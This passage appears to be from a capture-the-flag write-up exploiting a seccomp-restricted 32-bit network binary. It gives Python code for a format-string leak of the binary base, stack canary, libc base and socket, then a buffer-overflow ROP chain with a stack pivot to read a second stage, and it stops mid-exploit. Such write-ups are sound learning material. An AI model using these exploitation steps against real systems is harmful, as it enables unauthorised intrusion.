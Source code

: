 We can't get a shell as execve and execveat are disabled , also this is a 32bit binary so we can't trick it by return to 32bit. open and openat are disabled too , we can't open to read the flag from config.cfg, As the rules are enabled after the binary read the files it's need.

If you remember we said that the stream of config.cfg file is never closed , so we can use this to read the config.cfg file again and extract the password.

We will need to leak the heap address of the main thread as the Config() function ran in the main thread and we are in a different one, so the addresses are not the same.

# Writing Exploit
We will start by exploiting the format string to leak the addresses.
```python
# Leaking binary address, stack canary, libc address, socket fd
PAYLOAD = b"%p|%157$p|%168$p|%6$p"
setParam("SSID", PAYLOAD)
leak = getParam("SSID")

leak = leak.rstrip(b"\n").lstrip(b"\r").split(b"|")

BIN_BASE = int(leak[0].decode(), 16) - 0x214b
log.info("Binary base address: {}".format(hex(BIN_BASE)))

BSS = BIN_BASE + 0x6000
log.info("BSS section base address: {}".format(hex(BSS)))

CANARY = int(leak[1].decode(), 16)
log.info("Stack canary: {}".format(hex(CANARY)))

LIBC_BASE = int(leak[2].decode(), 16) - 0x223e34
log.info("Libc base address: {}".format(hex(LIBC_BASE)))

SOCK = int(leak[3].decode(), 16)
log.info("Socket: {}".format(hex(SOCK)))
```

We have Libc address and Binary address so we have a big number of gadgets to use , we can pivot the stack.

We will exploit the buffer overflow in SetParameterValue.SSID method to ROP. 
Start by using the Read() function to read stage 2 into bss and pivot the stack to there.

```python
EXPLOIT  = b"A" * 465
EXPLOIT += p32(CANARY)
EXPLOIT += b"B" * 12

EXPLOIT += Read
EXPLOIT += pop_edi_ebp <- to go to the next instruction and not return into p32(SOCK)
EXPLOIT += p32(SOCK)
EXPLOIT += p32(BSS + 0x300)

EXPLOIT += pop_esp # stack pivot
EXPLOIT += p32(BSS + 0x300)
```
